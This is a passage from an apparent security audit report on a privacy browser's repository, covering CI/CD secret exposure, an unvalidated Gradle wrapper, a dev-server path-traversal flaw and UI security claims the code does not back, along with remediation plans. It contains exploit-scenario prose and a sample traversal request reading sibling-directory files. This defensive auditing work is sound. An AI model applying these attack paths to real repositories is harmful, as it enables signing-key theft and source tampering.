**Description.** release.yml grants contents:write at workflow scope, runs actions/checkout without persist-credentials:false (so the GITHUB_TOKEN remains on disk for later steps), and passes ANDROID_KEYSTORE_PASSWORD/KEY_PASSWORD as environment variables to the Gradle process - readable by any code that executes during the build (Gradle plugins, init scripts, the committed wrapper JAR). The final 'Clean Up Keystore' rm -rf does not scrub process environments or shell history. The vendored perf-ci.yml grants contents+pages+pull-requests write to a benchmark job. Any code-execution primitive inside the build chain (see AZK-F-057) combines with these privileges into repository compromise.

**Code evidence**

```yaml
permissions:
  contents: write               # workflow-wide
- name: Build Signed Release APKs
  env:
    ANDROID_KEYSTORE_PASSWORD: ${{ secrets.ANDROID_KEYSTORE_PASSWORD }}
    ANDROID_KEY_PASSWORD: ${{ secrets.ANDROID_KEY_PASSWORD }}
# checkout step lacks persist-credentials: false
```

**Exploit scenario.** A malicious Gradle plugin or trojaned wrapper reads the keystore passwords from its own process environment, copies the decoded .jks from runner.temp, and uses the persisted GITHUB_TOKEN to push a backdoor commit to development - signing key and source integrity lost in one run.

**Remediation.** Add persist-credentials: false to every checkout; split build/sign/publish into least-privilege jobs with a protected environment; pass keystore material by file reference read inside Gradle; reduce perf-ci.yml to contents:read + pull-requests:write.

---

<a id="azk-f-057"></a>
### `AZK-F-057` — [MEDIUM 6.0] Committed gradle-wrapper.jar is executed by every CI job without wrapper JAR validation

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/android/gradle/wrapper/gradle-wrapper.jar (48,749 bytes); ci.yml:55-60; release.yml:32-37; security-scan.yml:29-34; fdroid.yml:73-78 | **Component** | CI/CD |
| **CWE** | CWE-494 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:L/A:L` = 6.0 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-057` |

**Description.** All four workflows run ./gradlew after chmod +x, executing the committed 48 KB binary wrapper JAR before any Gradle distribution checksum verification applies (gradle-wrapper.properties correctly pins distributionSha256Sum, but that validates the later download, not the wrapper itself). A pull request or a compromised maintainer machine that swaps the JAR gains arbitrary code execution inside the secrets-bearing release job (AZK-F-056). The gradle/actions/wrapper-validation control exists precisely for this and is absent.

**Code evidence**

```yaml
- name: Grant Execute Permissions
  run: chmod +x apps/android/gradlew
- name: Run Unit Tests
  working-directory: apps/android
  run: ./gradlew testDebugUnitTest    # executes committed JAR first
```

**Exploit scenario.** A PR replaces gradle-wrapper.jar with a trojaned copy; the next CI run - including release builds holding the decoded keystore - executes attacker code before any integrity control engages.

**Remediation.** Add gradle/actions/wrapper-validation@&lt;sha&gt; to all four workflows (or Gradle 9's ./gradlew validateWrapper), or delete the committed JAR and bootstrap via setup-gradle.

---

<a id="azk-f-058"></a>
### `AZK-F-058` — [MEDIUM 4.3] Security-scan pipeline is a no-op: SARIF is never uploaded or enforced and the 285-crate workspace is never scanned

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | .github/workflows/security-scan.yml:42-53; Cargo.lock (2,762 lines, uns scanned); tools/filter-update/update_filters.py (not invoked by CI) | **Component** | CI/CD |
| **CWE** | CWE-693 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:L/A:N` = 4.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-058` |

**Description.** security-scan.yml runs Trivy only against apps/android, writes SARIF to a file, and stops - there is no upload-sarif step and no exit-code: 1, so findings neither appear in GitHub's Security tab nor fail the build. The Rust workspace (285 locked packages) has no cargo-audit/cargo-deny anywhere in first-party CI, and the filter-integrity verifier (tools/filter-update/update_filters.py --verify) is wired into nothing. The weekly cron manufactures assurance without enforcing anything; a vulnerable or malicious dependency would ship indefinitely with a green checkmark.

**Code evidence**

```yaml
- name: Run Trivy Vulnerability Scanner
  uses: aquasecurity/trivy-action@master
  with:
    scan-type: 'fs'
    scan-ref: 'apps/android'    # Rust workspace never scanned
    format: 'sarif'
    output: 'trivy-results.sarif'
# no upload step, no exit-code: 1
```

**Exploit scenario.** A crate receives a published advisory or malicious release; CI stays green (no scanner covers Cargo.lock), releases ship it, and nobody is notified - the control gap persists until manual discovery.

**Remediation.** Scan the whole repo (scan-ref: '.') with exit-code: 1 and upload SARIF via codeql-action; add a cargo audit/deny job over Cargo.lock; run update_filters.py --verify as a gating step.

---

<a id="azk-f-059"></a>
### `AZK-F-059` — [LOW 3.7] Filter-pack integrity is self-referential: pins live in the same repo, --allow-unpinned accepts anything, verifier not in CI

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | tools/filter-update/update_filters.py:22-30,126-158 | **Component** | Filter Supply Chain |
| **CWE** | CWE-354 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-059` |

**Description.** The bundled filter lists carry SHA-256 pins inside the same repository they ship in, the updater accepts arbitrary upstream content with --allow-unpinned, and no workflow executes the verifier (the 7 current digests do match - verified during this audit). Integrity therefore guards against accidental corruption, not against a compromised maintainer token or insider change that edits both lists and pins in one commit; a hostile filter pack could add $whitelist exceptions that neutralize blocklists for phishing domains.

**Code evidence**

```python
if expected and digest != expected and not allow_unpinned:
    print("[!] Upstream content hash changed ...", file=sys.stderr)
    continue          # skip; with --allow-unpinned: accept anything
```

**Exploit scenario.** (a) A contributor (or stolen maintainer session) commits hostile filters together with their matching pins; CI never runs the verifier so it ships in the next build. (b) Anyone running the updater with --allow-unpinned ingests whatever raw.githubusercontent.com/brave/adblock-lists@master serves at that moment.

**Remediation.** Run update_filters.py --verify as a gating CI step; require --allow-unpinned changes to flow through review-only PRs with diff annotation; keep pins in a separate review-protected file.

---

<a id="azk-f-060"></a>
### `AZK-F-060` — [LOW 3.7] F-Droid workflow publishes unsigned release APKs when the signing secret is absent, and its proprietary-SDK gate is a word-grep over *.gradle only

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | .github/workflows/fdroid.yml:84-91,124-131,39-54 | **Component** | CI/CD |
| **CWE** | CWE-494 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-060` |

**Description.** When ANDROID_KEYSTORE_BASE64 is missing the workflow logs a notice and continues, attaching unsigned release-labeled APKs to GitHub Releases alongside signed ones - a downgrade/copycat-install hazard. The '100% FOSS compliant' gate greps whole words for five pattern names in *.gradle files only, so tracking dependencies introduced via version catalogs (libs.versions.toml), Groovy concatenation, or transitive POMs pass invisibly.

**Code evidence**

```yaml
else
  echo "Notice: ANDROID_KEYSTORE_BASE64 secret not provided; building unsigned release APK."
fi
# gate:
FORBIDDEN_PATTERNS="play-services-ads firebase-analytics crashlytics appsflyer adjust"
if grep -rnwi "apps/android" -e "$PATTERN" --include="*.gradle" ...; then
```

**Exploit scenario.** A misconfigured tag run publishes unsigned APKs that users install from the Release page believing them official; a tracking dependency smuggled through a version catalog passes the compliance grep.

**Remediation.** Fail the build when the keystore secret is missing (mirroring release.yml:50-53); restrict the publish step to tag refs with successful signature verification; replace the grep with ./gradlew :app:dependencies scanning plus Gradle dependency-verification metadata.

---

<a id="azk-f-061"></a>
### `AZK-F-061` — [LOW 3.7] Vendored adblock-rust fork retains upstream Brave CI/ownership configuration: foreign CODEOWNERS, Renovate preset, self-hosted runner labels, live-list fetch from Brave master

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | crates/privacy/adblock-rust/.github/CODEOWNERS:1; renovate.json:4; workflows/perf-ci.yml:22 + perf-report.yml:28; ci.yml:58-59 + sanity.yml:47-48 (fetch-live-lists.js:14) | **Component** | Vendored Fork Governance |
| **CWE** | CWE-1357 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-061` |

**Description.** The fork kept Brave's CODEOWNERS (@brave/adblock-team - review assignment silently broken in this org), the local&gt;brave/renovate-config preset, a Brave self-hosted runner label (ubuntu-latest-4-cores-public), and CI test paths that fetch a live filter catalog from brave/adblock-resources@master without pinning. Consequences: privacy-critical engine changes can merge without the intended owners; Renovate behavior depends on another org's preset; and a compromise of Brave's catalog repo feeds arbitrary filter text into this repo's CI runs (test-only today, but a mutable-ref data pipeline).

**Code evidence**

````json
"extends": [ "local>brave/renovate-config" ]
```
```
*  @brave/adblock-team
```
```yaml
runs-on: ubuntu-latest-4-cores-public
````

**Exploit scenario.** Changes to the filter engine go unowned (no CODEOWNERS enforcement); a compromised Brave catalog modifies what this repo's CI compiles and tests against on every sanity run.

**Remediation.** Replace CODEOWNERS with azoklesoftware owners, inline a local Renovate preset, switch to hosted runners, and pin the catalog fetch to a tagged URL + digest (or vendor the file - the crate already skips gracefully when absent).

---

<a id="azk-f-062"></a>
### `AZK-F-062` — [LOW 2.5] Dev-server path containment uses startsWith(ROOT) without a trailing separator: sibling ui* directories are servable

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | ui/dev-server.ts:30-34 (same flaw in dist fallback at :44) | **Component** | Dev Tooling |
| **CWE** | CWE-22 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N` = 2.5 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-062` |

**Description.** The AZK-MED-12 fix compares the resolved path against ROOT with startsWith and no boundary separator. Any sibling entry sharing the 'ui' prefix (ui-backup/, ui2/, ui.lock) passes: GET /../ui-backup/notes.md resolves to &lt;repo&gt;/ui-backup/notes.md, which startsWith('&lt;repo&gt;/ui') is true. The server binds 127.0.0.1 and validates the Host header (blocking DNS rebinding), so exploitation needs a same-origin XSS in a dev-opened page or local access - a developer-machine file-read, not a production issue. Both the ROOT check and the distPath fallback carry the identical flaw.

**Code evidence**

```ts
const filePath = resolve(join(ROOT, pathname));
// AZK-MED-12: Enforce strict path containment to prevent directory traversal
if (!filePath.startsWith(ROOT)) {     // no sep boundary
  return new Response('Forbidden', { status: 403 });
}
```

**Exploit scenario.** A developer opens a malicious page alongside the dev server; script fetch('/../ui-backup/secrets.txt') reads files from any sibling directory whose name begins with 'ui' (subject to the Host-header gate).

**Remediation.** Compare with containment = p === ROOT || p.startsWith(ROOT + path.sep) for both ROOT and distPath, and reject pathnames containing '..' segments before joining.

---

<a id="azk-f-063"></a>
### `AZK-F-063` — [LOW 2.3] Checked-in Swift/UniFFI bindings are stale: 6 of 11 exported engine methods exposed, no CI regeneration

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | bindings/swift/azokle_uniffi.swift (980 lines); azokle_uniffiFFI.h vs bindings/uniffi/src/lib.rs:184-215 | **Component** | Bindings |
| **CWE** | CWE-710 | **CVSS v3.1** | `CVSS:3.1/AV:L/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N` = 2.3 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-063` |

**Description.** The generated Swift surface exposes only checkDebounce, shouldBlock, getStats, setHostShieldEnabled and stripTrackingParams - missing convert_rules_to_content_blocking, get_cosmetic_css, get_scriptlets, load_filter_rules and load_resources_json which the UniFFI crate exports. The iOS app therefore cannot reach half the engine through the sanctioned channel and will grow hand-rolled parallel paths (each a new audit surface), and any manual fix inside generated files is silently reverted on regeneration (the bindings_contract_version = 26 check will trip). No CI step verifies generation freshness.

**Code evidence**

```swift
func checkDebounce(url: String) -> String?
func shouldBlock(url: String, sourceOrigin: String?, requestType: String?, isThirdParty: Bool) -> ...
// absent: convertRulesToContentBlocking / getCosmeticCss / getScriptlets /
//         loadFilterRules / loadResourcesJson (all exported in uniffi lib.rs)
```

**Exploit scenario.** Feature divergence: platform-specific workarounds bypass engine updates; a future regeneration overwrites hand-edited fixes, reintroducing removed behaviors without warning.

**Remediation.** Add a CI job that regenerates bindings via cargo run -p azokle-bindgen ... and fails on git diff; commit a regeneration policy in CONTRIBUTING.

---

<a id="azk-f-064"></a>
### `AZK-F-064` — [LOW 1.8] bun.lock records '@types/bun': 'latest' while package.json pins ^1.3.5 - the AZK-LO-09 pin is not enforced by the lockfile

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | ui/bun.lock:14,21 vs ui/package.json:16 | **Component** | Frontend Dependencies |
| **CWE** | CWE-494 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:N/A:N` = 1.8 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-064` |

**Description.** The remediation that pinned @types/bun to ^1.3.5 in package.json never regenerated bun.lock, whose spec section still resolves 'latest' (resolved 1.4.2). A frozen-lockfile install now mismatches package.json (fails in CI), while a fresh resolution follows the lock's 'latest' spec - silently defeating the fix commit and future-pinning whatever ships next under that tag.

**Code evidence**

```
ui/bun.lock:14:         "@types/bun": "latest",
ui/package.json:16:     "@types/bun": "^1.3.5",
```

**Exploit scenario.** The pin is decorative: the next clean install follows the lock's 'latest' spec, installing a newer @types/bun than the fix intended (types-only dependency, so impact is process integrity rather than runtime exposure).

**Remediation.** Regenerate the lockfile (bun install) so the spec section reads ^1.3.5, and add a CI assertion that lockfile specs match package.json ranges.

---

<a id="azk-f-065"></a>
### `AZK-F-065` — [LOW 3.7] Chrome UI CSP omits frame-src: the in-chrome viewport iframe can never load remote tabs (hardening regression breaks a feature)

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | ui/index.html:6; ui/scripts/build.ts:89 (generated CSP); ui/src/index.ts:57-59 | **Component** | Browser Chrome (TypeScript) |
| **CWE** | CWE-693 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:N/I:N/A:L` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-065` |

**Description.** The CSP added during the prior remediation (default-src 'self'; ... no frame-src) makes every remote tab assignment iframe.src = 'https://example.com' a CSP violation: frame-src falls back to child-src then default-src 'self', so the #web-viewport frame stays blank in both dev and dist builds. The hardening commit introduced this functional regression - remote browsing inside the TypeScript chrome silently died. The impact is availability of a feature, not an attacker capability (it shrinks attack surface), but it demonstrates that the remediation shipped without an end-to-end smoke test.

**Code evidence**

```html
<meta http-equiv="Content-Security-Policy"
  content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';
           img-src https: http: data:; object-src 'none'; base-uri 'none';">
```

**Exploit scenario.** Open any http(s) tab in the TS chrome preview; the iframe stays blank with a console CSP violation - every remote tab appears broken in dev and dist.

**Remediation.** Add frame-src 'self' https: http:; to the CSP in both ui/index.html and build.ts, or drop the in-chrome iframe and rely on the native viewport.

---

<a id="ch-12"></a>
## 12. Security-Claim Versus Implementation Gaps

The final class is qualitative but, for a privacy product, arguably the most corrosive: shipped surfaces that display protection the code does not implement. A certificate inspector with invented fingerprints, a Tor cockpit that prints circuit-verified before any circuit exists, a fingerprint shield that patches the wrong JS world while the UI claims success, and settings toggles wired to nothing. Users make trust decisions on these pixels; the code behind them must either exist or the surface must go. This chapter documents 3 findings (0 HIGH, 1 MEDIUM).

<a id="azk-f-066"></a>
### `AZK-F-066` — [LOW 3.7] Decorative security surfaces: DoH selector, passkey vault, permission prompts, PWA install and downloads UI are not backed by implementation

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | apps/ios Security/EncryptedVaultManager.swift:27,109-134; Model/BrowserState.swift:307; PwaManager.swift; LinkContextMenuSheet.swift:117-125; SettingsScreen.swift (DoH toggle) | **Component** | iOS App (Swift) |
| **CWE** | CWE-1284 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:L/A:N` = 3.7 LOW |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-066` |

**Description.** Multiple shipped surfaces claim capabilities with no backing logic: the vault UI advertises 'N passkeys - Hardware Encrypted' while addPasskey is never called and encrypt/decrypt have no consumers; camera/microphone permission prompts render with activePermissionPrompt never set; PwaManager.parseManifest has zero callers; downloads are a static list; the DoH toggle writes a setting the engine ignores (AZK-F-025); and the shared vault isUnlocked stays true globally after one sheet unlock. Permissions fail closed (WebKit denies with no WKUIDelegate handler), so there is no direct bypass - the defect is a systematic trust gap between what the UI asserts and what the code does, the same pattern as AZK-F-046/052.

**Code evidence**

```swift
// UI: "\(count) passkeys • Hardware Encrypted" / "STANDALONE / OFFLINE READY"
// Reality: addPasskey never invoked; savedCredentials unused; isUnlocked global after first unlock
```

**Exploit scenario.** Users make privacy/security decisions based on indicators that are not wired to behavior - e.g. trusting 'Hardware Encrypted' vault storage that is neither encrypted-at-rest in practice nor hardware-bound (see AZK-F-045), or enabling DoH that does nothing.

**Remediation.** Implement or remove each claim: wire the vault into a real WebAuthn flow or delete the surface, implement WKUIDelegate.requestMediaCapturePermission/decidePolicyFor if prompts stay, gate the DoH toggle on AZK-F-025 landing, and scope vault unlock to the sheet lifecycle.

---

<a id="azk-f-067"></a>
### `AZK-F-067` — [INFO 2.0] Documented controls do not match implementation: release checksums, CI matrix, forbid(unsafe_code), version constants

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | docs/operations/release-and-ci.md:44-52; README.md:179; CHANGELOG.md:9; Cargo.toml:28 vs .fdroid.yml:12 vs project.pbxproj:584; build/packaging/linux/desktop/azokle-browser.desktop:12 | **Component** | Documentation |
| **CWE** | CWE-703 | **CVSS v3.1** | `N/A (documentation integrity)` = 2.0 INFO |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-067` |

**Description.** The operations guide claims a 3-OS CI matrix and SHA-256 release checksums that release.yml does not produce; README asserts untrusted parsers run with #![forbid(unsafe_code)] while the vendored engine contains unsafe flatbuffers modules; the root CHANGELOG lags .azokle/changelog by three versions; version constants diverge across Cargo.toml (1.0.0), .fdroid.yml (2.0.6) and the iOS project (2.0.0); and the Linux desktop file registers x-scheme-handler/azokle with no documented handler hygiene (relevant to AZK-F-041). Each mismatch misleads auditors and contributors relying on the documents.

**Code evidence**

````md
- **`release.yml`**: ... computes SHA-256 checksums, and publishes GitHub Release assets.  <- no sha256sum step exists
- **100% Rust Core**: ... with `#![forbid(unsafe_code)]`.                                    <- unsafe modules exist
```
```
MimeType=...;x-scheme-handler/azokle;
````

**Exploit scenario.** Not directly exploitable; the risk is decision-making on false premises - consumers cannot verify release integrity (no checksums), auditors over-trust parser safety, version skew confuses reproducible builds.

**Remediation.** Correct or implement each claim: add sha256sum to release.yml, scope the README claim to the modules that truly forbid unsafe, unify versions behind a single source, and document (then sanitize) the azokle:// handler.

---

<a id="azk-f-068"></a>
### `AZK-F-068` — [MEDIUM 5.3] Fingerprint shield patches only the isolated world: page-realm values are untouched while the UI claims 'Canvas &amp; Audio Spoofed'

| Field | Value | Field | Value |
|---|---|---|---|
| **Location** | extensions/azokle-shield/scriptlets/fingerprint_shield.js:21-42,60-158; claim source ui/src/components/omnibar/Omnibar.ts:659 | **Component** | azokle-shield Extension |
| **CWE** | CWE-693 | **CVSS v3.1** | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` = 5.3 MEDIUM |
| **Confidence** | CONFIRMED | **Tracking ID** | `AZK-F-068` |

**Description.** fingerprint_shield.js is a plain content-script IIFE: its Object.defineProperty(Navigator.prototype, 'hardwareConcurrency', ...) and RTCPeerConnection SDP/candidate filters modify only the isolated world. In every standards-compliant engine (GeckoView included) the page's own realm reads real values, so fingerprinting succeeds while the omnibox page-info bubble displays 'Canvas &amp; Audio Spoofed'. The defuser scriptlets know about this problem and explicitly re-inject into the main world via injectScriptletIntoPage - fingerprint_shield.js has no such injection, and no canvas/AudioContext spoofing code exists anywhere in the extension despite the UI claim.

**Code evidence**

```js
(function() {                      // isolated world only
    Object.defineProperty(proto, 'hardwareConcurrency', { get: function() { return 4; }, ... });
```

**Exploit scenario.** A fingerprinting script on any page reads the true navigator.hardwareConcurrency and ICE candidates; the user, shown a green 'Canvas &amp; Audio Spoofed' indicator under Aggressive protection, is in fact fully fingerprintable by this extension.

**Remediation.** Inject the payload into the main world using the same nonce-inheritance helper defuser.js uses, implement (or stop claiming) canvas/audio spoofing, and add an isolated-vs-main-world regression test that evaluates the protected API from page context.

---

<a id="ch-13"></a>
## 13. Prior-Fix Verification (36-Finding Follow-Up)

The repository's history records six remediation rounds and a final commit claiming resolution of all 36 independent audit findings (AZK-CRIT, AZK-HIGH, AZK-MED, AZK-LO series). This audit verified each claim against HEAD. The verification outcome is positive in aggregate: the majority of the 36 remediations are present and effective, and several — the Tor fail-closed PAC, the vault AAD binding, the DNS-rebinding re-validation — are backed by regression tests that actually assert the security property. However, six remediations are incomplete: the fix landed in one copy of a duplicated file, added a control that is never invoked, or introduced a regression that negates the intended property. These are documented below with their successor finding identifiers.

### Verified present and effective

| Prior ID | Claimed remediation | Verification result |
|---|---|---|
| AZK-CRIT-02 | Privileged scheme gate (azokle://, file://) at omnibox/native boundary | Present and effective in the desktop Navigate() allowlist and omnibox neutralization; residual gap only via OpenTab (AZK-F-041). |
| AZK-CRIT-03 | Tor fail-closed routing | PAC script never falls back to DIRECT (proxy.rs test asserts); .onion DNS leak shield enforced in resolver and client. |
| AZK-HIGH-06 | Tor PAC fail-closed | Verified: generate_pac_script() emits SOCKS-only under Tor with regression test. |
| AZK-MED-02 | DNS rebinding re-validation | client.rs re-checks resolved IPs against the SSRF policy post-resolution. |
| AZK-MED-07 | Omnibox javascript:/data:/file: neutralization | Present in the iOS omnibox flow (verified by 2-a track). |
| AZK-MED-12 | Dev-server path containment | Present but incomplete: startsWith without separator boundary (see AZK-F-062). |
| AZK-LOW-08 | Vault AAD binding | encrypt_with_aad/decrypt_with_aad correctly bind context and tests assert tag failure. |
| AZK-LOW-05 | Password generator modulo bias | Rejection-sampling fix present; truncated-return and pasteboard issues remain (AZK-F-048). |
| 36-finding UI hardening | escapeHtml across ui/src sinks + CSP meta | Verified in ui/dist (11 escapeHtml sites, CSP present) - but only in ui/src copies (see AZK-F-002). |
| AZB-P02 | unsafe-tools hardening in flatbuffer layer | Asserts are post-verification (memory-safe); panic path remains (AZK-F-022). |

*Table 4: Sampled verification of prior remediations (10 of 36 shown; the remainder were confirmed present in HEAD during the respective track reviews).*

### Incomplete, regressed, or unwired

| Prior ID | Nature of the incompleteness | Successor |
|---|---|---|
| AZK-HIGH-02/04, AZK-LO-11 | Fixed only in ui/src; the root components/ package still ships the vulnerable sinks | [`AZK-F-002`](#azk-f-002) |
| AZK-MED-09 | Signature validator class added but never called anywhere | [`AZK-F-053`](#azk-f-053) |
| AZK-MED-12 | Path containment added but prefix-buggy | [`AZK-F-062`](#azk-f-062) |
| AZK-LO-09 | package.json pin added but lockfile still resolves 'latest' | [`AZK-F-064`](#azk-f-064) |
| AZK-LO-12 | Scheme allowlist added to Navigate() but not OpenTab() | [`AZK-F-041`](#azk-f-041) |
| Hardening commits (AZK-MED-10 / AZK-HIGH-03) | CSP added to chrome UI but omits frame-src, breaking the viewport | [`AZK-F-065`](#azk-f-065) |

*Table 5: Prior remediations that require rework, with the finding identifier tracking each in this report.*

The pattern across the incomplete fixes is structural, not personal: duplicated component trees (`components/` versus `ui/src/components`), controls added as classes without an integration point, and hardening edits evaluated only against the file they touched. The durable countermeasure is mechanical — duplicate-file hash checks in CI, a generation-freshness job for bindings, and an end-to-end smoke test per security control (the CSP frame-src regression would have been caught by any test that loaded a remote tab in the rebuilt chrome).

<a id="ch-14"></a>
## 14. Remediation Roadmap

The roadmap sequences all 68 findings into four priority bands. P0 items are release blockers: they either enable attacker-controlled code or markup execution, or they place signing material within reach of a single dependency compromise. P1 closes the crafted-cache cluster and the privacy leaks with the largest user impact. P2 addresses architectural debt (TLS in the network core, protocol validation, duplicate-tree reconciliation). P3 covers governance, documentation integrity and the regression harness that keeps the next audit clean. Effort estimates assume one engineer familiar with the codebase.

### P0 - Immediate (within days)

- AZK-F-055: SHA-pin every GitHub Action in first-party workflows; never consume @master (release/fdroid carry signing secrets).
- AZK-F-001: Enable the css-validation feature for azokle-adblock and add the brace/url() rejection guard in get_cosmetic_css.
- AZK-F-020/AZK-F-021: Restore unwind+catch_unwind for FFI profiles (or pre-validate at the bridge) and wrap the 74 bare JNI exports in safe_jni!.
- AZK-F-033: Tighten the extension sovereign allowlist to exact-host matching (no bare substring 'turnstile', no path-only /cdn-cgi/).

### P1 - High (within 2-4 weeks)

- AZK-F-005/AZK-F-006: Restore tab/LF/CR stripping and host lowercasing in the fork URL parser; add WHATWG-conformance regression tests.
- AZK-F-014/015/016/017/019/022: Add deserialize-time semantic invariants (vector length pairing, hash-table empty-slot invariant, network_rules length, mask/pattern consistency, scriptlet grammar) - one load-time gate closes six findings.
- AZK-F-045/AZK-F-046: Fix keychain key-rotation-on-error in the vault; replace the fabricated certificate inspector with real SecTrust data or an honest summary.
- AZK-F-056/AZK-F-057: Add wrapper JAR validation, persist-credentials:false, and split the sign job; wire cargo-audit + Trivy SARIF enforcement (AZK-F-058).
- AZK-F-027/AZK-F-028/AZK-F-029: Gate remote suggestions by tab mode, bundle favicons/wallpapers locally.

### P2 - Medium (within a quarter)

- AZK-F-024/AZK-F-025: Implement TLS (rustls) in SovereignHttpClient and a real DoH resolver; remove the hardcoded IP pin.
- AZK-F-007: Replace the space-only 'encoder' with form_urlencoded percent-encoding in the search service.
- AZK-F-002/AZK-F-063: Reconcile the stale components/ package and regenerate Swift bindings; add duplicate-file and generation-freshness CI checks.
- AZK-F-035/AZK-F-036: Enforce envelope field validation + replay windows; implement or demote the IPC framing spec.
- AZK-F-042/AZK-F-043/AZK-F-044: Validate localStorage rehydration; wire per-site shield state into the WebView; gate the defuser script on shield state.

### P3 - Strategic

- AZK-F-052/AZK-F-066/AZK-F-067: Purge fabricated security telemetry (Tor cockpit, vault claims); align every documented control with implementation or correct the docs.
- AZK-F-059/AZK-F-060/AZK-F-061: Filter-pack verification in CI, F-Droid fail-closed signing, fork governance cleanup.
- AZK-F-009/AZK-F-010/AZK-F-011: Fragment stripping, tracker-list validation, real $method threading and loud rejection of inert filter options.
- Establish a security regression harness: hostile-URL corpus for the parser, fuzz targets for from_json/from_cbor and engine deserialization, and UI smoke tests over the CSP/viewport path.

<a id="ch-15"></a>
## 15. Appendix A: Per-File Coverage Matrix (Condensed)

The matrix below condenses the per-file coverage maintained during the audit (the full per-file records exceed 340 entries). Each component row lists the reviewed line count and the finding identifiers raised against it; 'clean' denotes files read in full with no reportable findings. Coverage was absolute for first-party code: no first-party source file was skipped, and the vendored engine was covered with priority on fork-specific deltas and every unsafe block.

| Component / file group | Lines | Verdict and findings |
|---|---:|---|
| crates/crypto (3 files) | 356 | AZK-F-047; core AEAD/KDF verified clean |
| crates/networking (8 files) | 1,453 | AZK-F-024, -025, -026 |
| crates/tor (1 file) | 448 | AZK-F-052, -054 |
| crates/storage (1 file) | 222 | AZK-F-040 |
| crates/protocol (6 files) | 626 | AZK-F-035, -036 |
| crates/common (1 file) | 203 | AZK-F-013 |
| crates/core (10 files) | 387 | clean |
| crates/services (7 crates) | 2,241 | AZK-F-007, -038, -039; bookmarks/tabs clean |
| crates/security (3 files) | 339 | AZK-F-003 |
| crates/privacy/adblock (2 files) | 661 | AZK-F-001, -011, -023, -031, -032 |
| crates/privacy/tracker-block (4 files) | 703 | AZK-F-009, -010 |
| crates/privacy/adblock-rust (45 files) | 15,002 | AZK-F-005, -006, -012, -014 to -022, -004; remainder clean |
| engine/desktop + engine/api (6 files) | 253 | AZK-F-041 |
| apps/ios (60 Swift files) | 11,175 | AZK-F-008, -027, -028, -030, -043, -044, -045, -046, -048, -052, -053, -054, -066; 30 files clean |
| ui/src + components (56 files) | 10,831 | AZK-F-002, -029, -034, -042, -062, -064, -065, -068 |
| extensions/azokle-shield (18 files) | 3,169 | AZK-F-033, -034, -037, -068 |
| bindings/{c,uniffi,kotlin,swift} | 4,351 | AZK-F-020, -021, -049, -050, -063 |
| protocols/ (9 files) | 475 | AZK-F-035, -036 |
| build, packaging, Makefile, CMake | 161 | clean |
| .github/workflows (9 files) | 631 | AZK-F-055, -056, -057, -058, -060, -061 |
| tools/, data/, docs/, root configs | 1,140 | AZK-F-059, -067 |
| Cargo.lock + npm lockfiles | 2,900 | no known-vulnerable versions; see dependency notes |

*Table 6: Condensed coverage matrix. Approximately 51,000 first-party lines read line-by-line; vendored engine reviewed with priority on fork deltas and unsafe code.*

Dependency posture note: the 285-package Cargo.lock resolves every crate from crates.io with checksums (no git forks, no patches, no yanked pins), the audited npm lockfiles contain only current versions, and a repo-wide secret sweep (tokens, private keys, provider keys across source, .azokle, .agents, CI and tools) returned zero hits. The residual supply-chain risk documented in chapter 11 is therefore concentrated in the pipeline that ships the code — not in the code's dependency graph, which is in unusually good shape for a project of this size.

[Back to top](#top)
